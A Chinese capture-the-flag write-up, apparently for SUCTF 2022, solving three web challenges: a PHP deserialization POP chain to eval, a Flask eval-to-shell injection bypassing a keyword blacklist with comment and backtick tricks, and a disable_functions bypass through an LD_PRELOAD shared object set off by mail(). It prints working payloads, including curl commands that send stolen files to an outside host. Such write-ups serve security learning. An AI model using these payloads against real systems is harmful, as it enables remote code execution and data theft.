

### ezpop

这一题是经典的序列化构造

```
<?php

class crow
{
    public $v1;
    public $v2;

    function eval() {
        echo new $this->v1($this->v2);
    }

    public function __invoke()
    {
        $this->v1->world();
    }
}

class fin
{
    public $f1;

    public function __destruct()
    {
        echo $this->f1 . '114514';
    }

    public function run()
    {
        ($this->f1)();
    }

    public function __call($a, $b)
    {
        echo $this->f1->get_flag();
    }

}

class what
{
    public $a;

    public function __toString()
    {
        $this->a->run();
        return 'hello';
    }
}
class mix
{
    public $m1;

    public function run()
    {
        ($this->m1)();
    }

    public function get_flag()
    {
        eval('#' . $this->m1);
    }

}

if (isset($_POST['cmd'])) {
    unserialize($_POST['cmd']);
} else {
    highlight_file(__FILE__);
}
```

构造序列化主要是关注类的几个魔术函数

\_\_destruct()： 在对象被销毁时候调用。

\_\_toString：在对象被当作字符串时调用。

\_\_call()：在调用一个对象中不存在的函数时候调用。

\_\_invoke()：对象被当作函数直接调用时候调用。

弄懂了这几个函数之后就简单了。构造一个简单的链子。

```
fin __destruct -> what __toString ->fin fun -> croe __invoke -> fin __call -> mix get_flag() -> eval
```

然后就可以执行任意代码了。

eval()#开头可以用换行符绕过去。建议python执行浏览器直接发包存在编码问题。

### calc

题目直接给了代码

```
#coding=utf-8
from flask import Flask,render_template,url_for,render_template_string,redirect,request,current_app,session,abort,send_from_directory
import random
from urllib import parse
import os
from werkzeug.utils import secure_filename
import time


app=Flask(__name__)

def waf(s):
    blacklist = ['import','(',')',' ','_','|',';','"','{','}','&','getattr','os','system','class','subclasses','mro','request','args','eval','if','subprocess','file','open','popen','builtins','compile','execfile','from_pyfile','config','local','self','item','getitem','getattribute','func_globals','__init__','join','__dict__']
    flag = True
    for no in blacklist:
        if no.lower() in s.lower():
            flag= False
            print(no)
            break
    return flag


@app.route("/")
def index():
    "欢迎来到SUctf2022"
    return render_template("index.html")

@app.route("/calc",methods=['GET'])
def calc():
    ip = request.remote_addr
    num = request.values.get("num")
    log = "echo {0} {1} {2}> d://a.txt".format(time.strftime("%Y%m%d-%H%M%S",time.localtime()),ip,num)

    if waf(num):
        try:
            data = eval(num)
            os.system(log)
        except:
            pass
        return str(data)
    else:
        return "waf!!"


if __name__ == "__main__":
    app.run(host='0.0.0.0',port=5000)

```

大概分析了下。首先是对参数进行了黑名单过滤。然后下面先eval最后又构造了系统命令。

思路瞬间清晰了。只要过了eval就可以构造任意命令执行。

然后就要利用到一个知识点 在python中#是单行注释这样就可以绕过了eval 但是在shell中#也是注释。这时就需要\`了。在shell中即使是#后面的只要用\`包裹起来就依旧可以执行。

刚开始打算nc转发shell奈何没反应，最后测速时用到了curl然后后来就选择了curl外带数据发送出去。

因为参数过滤了空格所以用tab代替了空格

```
'a'#`ls%09/>%09/tmp/a.txt`
```

```
'a'#`curls%09-ds%09@/tmp/a.txts%09http://xxxxxx:xx`
```

然后发现了flag的位置Th1s\_is\_\_F1114g

参数过滤了\_我们不能直接查看所以选择cat /\*

```
'a'#`cat%09/*>%09/tmp/a.txt`
```

```
'a'#`curls%09-ds%09@/tmp/a.txts%09http://xxxxxx:xx`
```

## upgdstore

题目打开就是提示只能上传php，先一句话测试发现被过滤了。然后查看phpinfo（）

我直接好家伙直接过滤了一大堆。最后发现eval和file\_get\_contetns没禁止，但是过滤了。最后eval通过大写直接绕过了过滤。既然有file\_get\_contents那就试试直接读取看看

[](https://www.xaitx.com/wp-content/uploads/2022/03/1648358599-image.png)

呃呃，权限不够，但是至少知道了文件在哪（虽然没啥用）。

这么多函数被禁那自然是想到了**disable\_functions**：查看发现putenv和mail都能用，那就直接搞起来。

百度一个c的代码然后编译。

```
#include<stdlib.h>
__attribute__((constructor)) void l3yx(){ unsetenv("LD_PRELOAD"); system(getenv("_evilcmd")); }
```

编译利用$\_FILE和move\_uploaded\_file就可以上传然后保存我们的恶意so文件了

然后利用php触发这个so就行了。

```
putenv("_evilcmd=id>/tmp/a.txt;curl -d @/tmp/a.txt http://xxx:xxx"); putenv("LD_PRELOAD=/var/www/html/test2.so"); mail('a','a','a','a');
```

为啥又用curl呢因为我又又又没弄到shell。。。。。

后来因为权限不足呃呃读不到flag。只能想办法提权。后来看了另一个师傅发的wp。他是通过搜索具有root suid属性的命令。最终发现nl具有，所以直接nl /flag就得到flag了。
